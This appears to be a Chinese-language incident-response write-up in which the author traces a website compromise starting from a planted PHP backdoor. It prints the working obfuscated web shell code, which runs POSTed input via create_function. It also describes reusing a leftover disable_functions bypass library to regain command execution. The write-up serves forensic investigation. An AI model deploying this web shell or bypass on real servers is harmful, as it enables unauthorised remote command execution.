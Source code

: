 #  记一次从后门开展的应急响应溯源

先知社区-ADog  [ W小哥 ](javascript:void\(0\);)

**W小哥** ![]()

微信号 gh_f962eb08dc5c

功能介绍 欢迎关注W小哥的公众号，网络安全从业人员和网络安全爱好者的自留地，有朋自远方来，不亦说乎！

____

___发表于_

收录于合集

# 1 背景

一般安全厂商都会有针对web后门的扫描工具，此次拿到了一批网站被植入后门的攻击线索，由于疫情原因，现场排查取证条件比较苛刻，所以此次溯源是在开局一个后门情况下开展，大致思路是连接后门->查看日志->漏洞溯源。

# 2 后门排查

存在后门的URL : http://www.xxxx.com/plugins/layer/mobile/need/wwConapp.php

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307164102.png)

    
    
    <?php  
    function fun2(){  
        $b=$_POST;  
        return @($b[a]);  
    }  
    @extract(array(b=>create_function(NULL,fun2())));  
    @extract(array(c=>$b()));  
    ?>hello  
    

进去之后想要通过antasword执行命令，发现ret=127，于是查看phpinfo，发现存在disable_functions

    
    
    diable_functions : exec,passthru,popen,proc_open,shell_exec,system,assert  
    

禁用了这些命令执行的先关函数，绕过应该还是好绕的，不过在同目录下已经发现了前人留下的bypass_disablefunc_x.so，省去了绕过时间，直接复用即可  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307164103.png)

到这儿基本已经相当于可以远程执行命令，达到现场排查、取证溯源的目的。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307164104.png)

通过cat access.log来获取访问日志，这里通过撰写脚本只获取了2020年4月1日至2020年12月31日的日志，方便我们进行精准溯源。
